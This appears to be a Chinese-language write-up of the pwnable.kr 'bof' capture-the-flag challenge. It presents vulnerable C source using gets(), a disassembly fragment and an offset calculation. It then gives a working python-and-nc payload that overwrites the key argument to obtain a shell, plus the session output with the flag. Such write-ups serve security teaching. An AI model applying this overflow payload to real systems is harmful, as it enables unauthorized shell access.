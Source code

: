 ```yaml
---
title: pwnable.kr-bof
date: 2017-12-08 16:43:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

## 分析
查看源码`bof.c`
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
func函数中如果传入参数为`0xcafebabe`则会获得一个shell，但是main函数中调用func函数时传入了一个错误的数值，显然这题是要通过栈溢出来覆盖形参key的值。
通过ida查看bof程序
```asm
.text:0000062C                 public func
.text:0000062C func            proc near               ; CODE XREF: main+10p
.text:0000062C
.text:0000062C s               = byte ptr -2Ch
.text:0000062C var_C           = dword ptr -0Ch
.text:0000062C arg_0           = dword ptr  8
.text:0000062C
.text:0000062C                 push    ebp
.text:0000062D                 mov     ebp, esp
.text:0000062F                 sub     esp, 48h
.text:00000632                 mov     eax, large gs:14h
.text:00000638                 mov     [ebp+var_C], eax
.text:0000063B                 xor     eax, eax
.text:0000063D                 mov     dword ptr [esp], offset s ; "overflow me : "
.text:00000644                 call    puts
.text:00000649                 lea     eax, [ebp+s]
.text:0000064C                 mov     [esp], eax      ; s
.text:0000064F                 call    gets
```
上面是func函数的汇编片段，可以看到func函数开辟了48h的栈空间，但是gets函数将输入字符串存放在ebp偏移-2ch的位置，再加上ebp，retaddr的大小一共是34h的偏移，这个34h就是overflow到key的偏移，于是有下面的payload
```
(python -c "print 'a'*0x34+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
```
其中加cat维持shell的交互
```
root@kali:~/桌面/pwn/bof# (python -c "print 'a'*0x34+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```